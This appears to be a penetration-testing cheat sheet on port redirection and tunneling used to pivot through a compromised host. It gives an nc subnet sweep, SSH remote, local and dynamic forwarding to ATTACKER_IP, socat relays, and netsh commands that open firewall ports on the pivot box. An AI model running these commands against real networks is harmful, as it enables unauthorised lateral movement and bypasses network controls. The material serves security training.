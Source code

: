 # Port Redirection and Tunneling

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md" %}

```c
ip addr
ip route

# Host / Port Discovery (Linux)
for i in $(seq 1 254); do nc -zv -w 1 172.16.173.$i 445; done

arp -a
/etc/hosts
C:\Windows\System32\drivers\etc\hosts
/etc/resolv.conf
nmcli dev show

# Static binaries
https://github.com/andrew-d/static-binaries
https://github.com/ernw/static-toolbox/
```

Port redirection means modifying the flow of data so that packets sent to one socket will be taken and passed to another socket.

Tunneling means encapsulating one type of data stream within another, for example, transport HTTP traffic within a SSH connection (so from an external perspective, only the SSH traffic will be visible).

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/sshuttle/sshuttle
https://github.com/klsecservices/rpivot
https://github.com/jpillora/chisel
https://adepts.of0x.cc/shadowmove-hijack-socket/
# SSH Tunneling (if we make a sensitive connection to our attacker machine)
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser

# SSH Remote Port Forwarding
C:\pivot> ssh tunneluser@ATTACKER_IP -R 3389:TARGET_IP:TARGET_PORT -N

# SSH Local Port Forwarding (making a local port from our attacking machine available to another host, for example to get a revshell where that host would not normally be able to connect to us)
C:\pivot> ssh tunneluser@ATTACKER_IP -L *:80:127.0.0.1:80 -N # forward all connections to 80 pivot box to my localhost
# Since we are opening a new port on pivot box, we might need to add a firewall rule to allow for incoming connections
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80

# Remote Port Forwarding With socat
c:\pivot> socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389 # listen 3389 on pivot and forward to host 1.1.1.1 on port 3389
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
# Local port forwarding (to reach attacker's port)
C:\pivot> socat TCP4-LISTEN:80,fork TCP4:$ATTACKER_IP:80

# Dynamic Port Forwarding and SOCKS
C:\pivot> ssh tunneluser@ATTACKER_IP -R 9050 -N
/etc/proxychains.conf
[ProxyList]
socks4  127.0.0.1 9050
```